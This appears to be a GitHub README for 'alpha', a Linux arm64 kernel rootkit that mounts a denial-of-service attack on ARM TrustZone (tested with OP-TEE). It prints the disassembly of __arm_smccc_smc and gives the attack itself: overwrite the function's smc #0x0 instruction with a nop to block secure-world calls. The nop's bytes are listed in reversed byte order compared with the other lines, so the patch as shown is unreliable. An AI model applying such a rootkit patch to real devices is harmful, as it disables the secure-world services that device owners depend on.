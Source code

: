 # alpha
alpha is a simple kernel rootkit (Linux arm64) to DoS attack the TrustZone. He erases the smc_handle function of the kernel to block calls to the SMC instruction. It has been tested with OP-TEE but should work with any other TrustZone implementation.

### __arm_smccc_smc (include/linux/arm-smccc.h)   
   
```
03 00 00 d4     smc   #0x0   
e4 03 40 f9     ldr   x4, [sp]   
80 04 00 a9     stp   x0, x1, [x4]   
82 0c 01 a9     stp   x2, x3, [x4,#16]   
e4 07 40 f9     ldr   x4, [sp,#8]   
a4 00 00 b4     cbz   x4, 0x00000028   
89 00 40 f9     ldr   x9, [x4]   
3f 05 00 f1     cmp   x9, #0x1   
41 00 00 54     b.ne  0x00000028   
86 04 00 f9     str   x6, [x4,#8]   
c0 03 5f d6     ret
```   
   
### Basic attack   
   
Replace the first instruction of the function :   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction :   
```   
d5 03 20 1f     nop      
```   
